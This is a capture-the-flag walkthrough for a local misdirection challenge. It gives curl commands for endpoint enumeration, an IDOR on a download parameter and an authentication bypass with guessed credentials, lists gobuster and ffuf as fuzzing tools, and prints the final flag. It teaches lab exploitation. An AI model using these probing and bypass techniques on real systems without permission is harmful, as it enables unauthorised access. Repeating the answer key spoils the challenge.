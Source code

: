 # Direct Hide S3 3 - Step-by-Step Walkthrough

## 🎯 Challenge Overview
This is a **misdirection challenge** - the UI is designed to waste your time with fake paths. The real vulnerabilities require manual discovery.

## 🚨 Quick Start Guide

### ❌ **What NOT to Do**
- Don't click the "Download Flag" button (fake)
- Don't use the terminal widget (fake) 
- Don't follow breadcrumbs (fake)
- Don't trust any UI element

### ✅ **What TO Do**
1. **Ignore the entire UI**
2. **Manually enumerate endpoints**
3. **Test parameters systematically**
4. **Try different HTTP methods**

## 🔍 **Discovery Process**

### Step 1: Endpoint Enumeration
```bash
# Test common endpoints
curl http://localhost:3000/admin        # Returns decoy JSON
curl http://localhost:3000/api          # 404
curl http://localhost:3000/download     # 404 but accepts parameters!
curl http://localhost:3000/handshake    # 403 but exists!
```

### Step 2: Parameter Testing
```bash
# Test /download endpoint with different IDs
curl "http://localhost:3000/download?id=test"      # 404
curl "http://localhost:3000/download?id=admin"     # 404  
curl "http://localhost:3000/download?id=real_flag" # BINGO! Real flag
```

### Step 3: Alternative Methods
```bash
# Test /handshake with POST
curl -X POST -H "Content-Type: application/json" \
  -d '{"token":"test","verify":"test"}' \
  http://localhost:3000/handshake       # 403

# Try theme-related credentials (pharmacy/tree from flag context)
curl -X POST -H "Content-Type: application/json" \
  -d '{"token":"pharmacy_tree","verify":"jamun"}' \
  http://localhost:3000/handshake       # SUCCESS!
```

## 🏆 **Solutions**

### **Method 1: IDOR Vulnerability**
```bash
curl "http://localhost:3000/download?id=real_flag"
# Returns: flag{JAMUN_TREE_IN_FRONT_OF_PHARMACY}
```

### **Method 2: Authentication Bypass**
```bash
curl -X POST -H "Content-Type: application/json" \
  -d '{"token":"pharmacy_tree","verify":"jamun"}' \
  http://localhost:3000/handshake
# Returns: {"success":true,"flag":"flag{JAMUN_TREE_IN_FRONT_OF_PHARMACY}"}
```

## 🧠 **Key Learning Points**

1. **UI Misdirection**: Professional-looking interfaces can be completely fake
2. **Manual Testing**: Real vulnerabilities often have no UI presence
3. **Endpoint Discovery**: Always enumerate paths beyond what's linked
4. **Parameter Fuzzing**: Test different values systematically
5. **Context Clues**: Challenge names/themes often hint at exploitation methods

## 🛠️ **Tools for Discovery**

### **Directory Enumeration**
```bash
dirb http://localhost:3000/
gobuster dir -u http://localhost:3000/ -w /usr/share/wordlists/dirb/common.txt
```

### **Parameter Fuzzing**  
```bash
ffuf -w wordlist.txt -u http://localhost:3000/download?id=FUZZ
wfuzz -w wordlist.txt http://localhost:3000/download?id=FUZZ
```

### **Manual Testing**
```bash
# Test different HTTP methods
curl -X GET http://localhost:3000/handshake
curl -X POST http://localhost:3000/handshake  
curl -X PUT http://localhost:3000/handshake

# Test with different content types
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
  -d "token=test&verify=test" http://localhost:3000/handshake
```

## 💡 **Pro Tips**

1. **Always read error messages carefully** - they contain clues
2. **Try obvious values first** - admin, test, real_flag, production
3. **Consider the challenge context** - names, themes, descriptions
4. **Test both GET and POST methods** on discovered endpoints
5. **Use Burp Suite or similar** for systematic parameter testing

## 🎭 **Psychology Behind the Challenge**

This challenge exploits several cognitive biases:
- **Instant Gratification**: Big download button gives immediate "reward"
- **Authority Bias**: Security badges and professional design create trust
- **Confirmation Bias**: Success animations convince you've succeeded
- **Path Dependence**: UI guides you to intended (fake) paths

**The lesson**: Always maintain skepticism and verify independently!

---

**Flag**: `flag{JAMUN_TREE_IN_FRONT_OF_PHARMACY}`
